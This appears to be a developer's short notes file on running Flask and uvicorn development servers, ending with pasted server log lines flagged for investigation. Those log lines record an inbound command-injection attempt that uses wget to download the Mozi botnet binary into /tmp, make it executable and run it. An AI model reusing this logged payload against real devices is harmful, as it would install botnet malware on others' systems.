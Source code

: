 # Notes


## Flash 
- pip3 install flask
- from flask import flash

- export FLASK_APP=app.py
- export FLASK_ENV=development

- flask run
flask run -h 0.0.0.0 -p 8080

## Cheat cheat
- curl cht.sh/python/flask


## Live server
from liveserver import LiveServer
ls = LiveServer(app)
    ls.run("0.0.0.0", 8080)

## uvicorn
uvicorn app:app --reload --port 80 --host 0.0.0.0


investigate from new TODO API Server
71.215.97.89 - - [13/May/2022 12:10:58] "GET /loadsavedtodo HTTP/1.1" 200 -
112.220.89.114 - - [13/May/2022 12:26:43] code 400, message Bad HTTP/0.9 request type ('27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$')
112.220.89.114 - - [13/May/2022 12:26:43] "27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0" HTTPStatus.BAD_REQUEST -